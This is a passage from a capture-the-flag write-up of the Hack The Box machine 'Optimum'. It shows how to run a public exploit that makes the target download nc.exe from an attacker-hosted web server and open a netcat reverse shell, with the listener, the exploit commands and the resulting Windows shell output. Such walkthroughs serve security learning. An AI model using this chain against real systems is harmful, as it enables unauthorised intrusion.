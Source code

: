 ```python
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

The VBS script will then upload netcat (`nc.exe`) to the target machine from our attacker web server, and execute the netcat reverse shell payload to connect to our attacker's netcat listening port.

Armed with above information, let's fire it up!

- **Change `ip_addr` to our attacker machine's IP address:**

```python
ip_addr = "10.10.14.8" #local IP address
local_port = "443" # Local Port number
```

- **Setup a web server (i.e: Python's `http.server` module) to host the netcat binary (64-bit):**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:41:41(HKT)]
└> file /opt/static-binaries/binaries/windows/x64/nc.exe
/opt/static-binaries/binaries/windows/x64/nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 7 sections
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:41:49(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/windows/x64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- **Setup a netcat listener on port 443:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:39:44(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
```

- **Run the exploit few times:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:42:11(HKT)]
└> python2 39161.py optimum.htb 80
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:42:15(HKT)]
└> python2 39161.py optimum.htb 80
```

- **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|11:39:44(HKT)]
└> rlwrap -cAr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.8] 49162
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami && ipconfig /all
whoami && ipconfig /all
optimum\kostas

Windows IP Configuration

   Host Name . . . . . . . . . . . . : optimum
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
```